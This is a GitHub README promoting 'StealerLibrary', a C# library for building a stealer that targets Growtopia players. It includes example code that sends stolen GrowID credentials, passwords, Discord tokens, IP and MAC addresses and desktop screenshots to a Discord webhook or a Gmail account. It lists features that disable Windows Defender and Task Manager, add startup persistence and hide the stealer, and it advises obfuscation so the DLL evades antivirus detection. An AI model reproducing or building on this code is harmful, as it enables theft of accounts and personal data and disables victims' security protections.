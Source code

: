 # StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.
#### ⭐ If you like the project, feel free to star the project ⭐

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that.

## Example Usage : 

```csharp
using StealerLibrary;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            //Discord Webhook Method
            Library.DiscordWebhookUrl = "https://discord.com/api/webhooks/example/example";
            Library.WebhookName = "StealerLibrary"; //Optional
            Library.WebhookProfilePictureUrl = ""; //Optional
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.DiscordStealer(true, true, true, true, true, true, true, true, true);
            
            //Gmail Method
            Library.Gmail = "example@gmail.com";
            Library.GmailPassword = "Example12345.";
            Library.SMTPServer = "smtp.gmail.com"; //Default
            Library.SMTPPort = 587; //Default
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.GmailStealer(true, true, true, true, true, true, true, true, true);
            
            //Run On Startup, Disable Task Manager, Corrupt Growtopia, Hide Stealer, Disable Windows Defender
            Library.Functions(true, false, true, false, false);
            
            //Trace Save.dat for Discord/Gmail
            Library.TraceSaveDat(true, false);
        }
    }
}
```

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)
### V3
- Gmail Method (Optional)
- Trace Save.dat (Customizable: True/False)
- Run On Startup (Customizable: True/False)
- Disable Task Manager (Customizable: True/False)
- Corrupt Growtopia (Customizable: True/False)
- Hide Stealer (Customizable: True/False)
- Disable Windows Defender (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
